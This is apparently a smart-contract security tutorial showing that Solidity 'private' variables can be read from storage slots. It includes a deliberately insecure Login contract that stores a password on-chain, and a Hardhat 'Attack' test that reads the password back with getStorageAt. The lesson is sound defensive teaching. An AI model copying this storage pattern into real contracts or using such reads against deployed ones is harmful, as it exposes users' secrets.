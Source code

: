 [Private data](https://www.learnweb3.io/tracks/senior/private-data)

## Accessing private data

When we start writing smart contracts and come across visibility modifiers like public, private, etc. we may think that if you want some variable's value to be readable by the public you need to declare it public, and that private variables cannot be read by anyone but the smart contract itself.

But, Ethereum is a public blockchain. So what does private data even mean?

## What does `private` mean?

Function (and variable) visibility modifiers only affect the visibility of the function - and do not prevent access to their values. We know that **public** functions are those which can be called both externally by users and smart contracts, and also by the smart contract itself.

Similarly, **internal** functions are those which can only be called by the smart contract itself, and outside users and smart contracts cannot call those functions. **external** functions are the opposite, where they can only be called by external users and smart contracts, but not the smart contract that has the function itself.

**private**, similarly, just affects who can call that function. **private** and **internal** behave mostly similarly, except the fact that **internal** functions are also callable by derived contracts, whereas private functions are not.

So for example, if **Contract A** has a function **f()** which is marked **internal**, a second **Contract B** which inherits **Contract A** like

```sh
contract B is A {
  ...
}
```

can still call **f()**.

However, if **Contract A** has a function **g()** which is marked **private**, **Contract B** cannot call **g()** even if it inherits from **A**.

The same is true for variables, as variables are basically just functions. private variables can only be accessed and modified by the smart contract itself, not even derived contracts. However, this does not mean that external parties cannot read the value.

> It is safe to store private information on-chain? => No

## BUIDL

To understand how this works, recall from the Ethereum Storage and Execution level that variables in Solidity are stored in **32 byte (256 bit) storage slots**, and that data is stored sequentially in these storage slots based on the order in which these variables are declared.

Storage is also optimized such that **if a bunch of variables can fit in one slot, they are put in the same slot**. This is called variable packing, and we will learn more about this later.

```sh
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Login {

    // Private variables
    // Each bytes32 variable would occupy one slot
    // because bytes32 variable has 256 bits(32*8)
    // which is the size of one slot

    // Slot 0
    bytes32 private username;
    // Slot 1
    bytes32 private password;

    constructor(bytes32  _username, bytes32  _password) {
        username = _username;
        password = _password;
    }
}
```

> How many storage slots will be used for this contract?

![How many slots!](./images/how-many-slots.png "How many slots") 

=> 3

Therefore, instead of attempting to read these variable values by calling the contract, which is not possible, **we can just access the storage slots directly**. Since Ethereum is a public blockchain, all nodes have access to all the state.

# Test

```sh
const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("Attack", function () {
  it("Should be able to read the private variables password and username", async function () {
    // Deploy the login contract
    const loginFactory = await ethers.getContractFactory("Login");

    // To save space, we would convert the string to bytes32 array
    const usernameBytes = ethers.utils.formatBytes32String("test");
    const passwordBytes = ethers.utils.formatBytes32String("password");

    const loginContract = await loginFactory.deploy(
      usernameBytes,
      passwordBytes
    );
    await loginContract.deployed();

    // Get the storage at storage slot 0,1
    const slot0Bytes = await ethers.provider.getStorageAt(
      loginContract.address,
      0
    );
    const slot1Bytes = await ethers.provider.getStorageAt(
      loginContract.address,
      1
    );

    // We are able to extract the values of the private variables
    expect(ethers.utils.parseBytes32String(slot0Bytes)).to.equal("test");
    expect(ethers.utils.parseBytes32String(slot1Bytes)).to.equal("password");
  });
});
```

## Prevention

NEVER store private information on a public blockchain. No other way around it.

> 🤔 What is the correct way to read the value of variable `d` in this contract?

![How to read variable d!](./images/how-to-read-variable-d.png "How to read variable d") 

=> provider.getStorageAt(1);